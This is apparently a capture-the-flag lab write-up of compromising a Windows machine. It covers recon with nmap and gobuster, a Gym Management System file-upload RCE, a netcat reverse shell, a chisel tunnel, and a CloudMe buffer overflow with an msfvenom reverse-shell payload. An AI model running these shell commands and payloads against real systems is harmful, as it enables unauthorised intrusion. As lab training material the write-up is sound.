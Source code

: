 **Nmap Scan:**
```
# Nmap 7.92 scan initiated Wed Jan  4 22:55:01 2023 as: nmap -sC -sV -p- -vv -oA full 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received echo-reply ttl 127 (0.073s latency).
Scanned at 2023-01-04 22:55:02 EST for 207s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  4 22:58:29 2023 -- 1 IP address (1 host up) scanned in 208.15 seconds

```

There is a website on port 8080, so I started going thorugh it and meantime I ran a gobuster scan:
```
gobuster dir --url http://10.10.10.198:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x .txt,.php,.html 
```
On the website ```Contact``` Tab I saw this:
![(images/buff/Pasted image 20230107213809.png)]

I searched online and found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48506):

**Vulnerability Description**
Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

**Initial shell Proof**
![[images/buff/Pasted image 20230107214338.png]]

Since it is a web shell I was limited and couldn't move from the current directory I was in, so I moved ```nc.exe``` to the target machine, and created a reverse shell.
```
Kali Machine:
smbserver.py kali .
nc -nlvp 443

Target Machine:
copy \\10.10.14.2\kali\nc.exe
.\nc.exe 10.10.14.2 443 -e powershell.exe
```

---
# Privilege Escalation

First, I enumerated the machine manually, and while grabbing the ```user.txt``` flag I saw this:
![[images/buff/Pasted image 20230107214936.png]]
```CloudMe_1112``` looked like something worth checking, and I found online a BOF (Buffer OverFlow) exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48389)

I checked the ```netstat``` to see if it was really listening to this ```CloudMe``` service, and it was listening to two ports:
```
netstat -ano

TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
```
**3306:** MySQL Service, which made sense since it was using the PHP site.
**8888:** The port that was associated with ```CloudMe``` service.

To verify it, I grabbed the process ID and found it on the tasklist:
```
tasklist /v | findstr 2820
CloudMe.exe                   2820                            0     37,444 K Unknown 
```

To use this exploit, I needed a tunnel from my Kali to the target machine.
I used [chisel](https://github.com/jpillora/chisel) for this, and this is how I used it:
```
Kali Machine:
One tab:
smbserver.py kali .
Second tab:
./chisel_1.7.7_linux_amd64 server -p 8000 -reverse

Target Machine:
copy \\10.10.14.2\kali\chisel_1.7.7_windows_amd64
.\chisel.exe client 10.10.14.2:8000 R:8888:127.0.0.1:8888
```

Now, to run the exploit I had to do a few modification:

**Generate a payload:**
```
Original Payload: msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python


Modified Payload:
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -b '\x00\x0A\x0D' -f python -v payload


-v flag was used to set the output payload variable name
I replaced the original payload with the modified one, listened to port 1234 on another tab and ran the exploit.
```

And it worked:
![[images/buff/Pasted image 20230107220850.png]]

